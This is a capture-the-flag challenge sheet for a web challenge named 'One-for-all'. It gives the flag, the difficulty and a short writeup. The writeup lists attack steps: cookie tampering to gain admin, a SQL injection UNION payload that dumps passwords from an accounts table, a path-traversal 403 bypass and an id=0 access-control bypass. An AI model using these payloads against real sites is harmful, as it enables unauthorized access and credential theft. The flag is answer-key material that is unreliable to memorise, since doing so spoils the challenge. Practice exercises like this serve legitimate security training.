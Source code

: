 ### Challenge Name
One-for-all

### Description
One for all or all for one?

### Difficulty
6/10

### Flag
PCTF{Hang_l00s3_and_Adm1t_ev3rYtH1nG}

### Hints
N/A

### Author
Kiran Ghimire

### Tester
Tested by <>

### Writeup
The flag is divided into four parts.

1. Change cookie value to admin of key name
2. SQlite injection in user name field
3. Query: 4180" UNION ALL SELECT 1,2,3,group_concat(password) from accounts--
4. 403 bypass: "/secretsforyou/..;/"
5. Change id to 0: /user?id=0

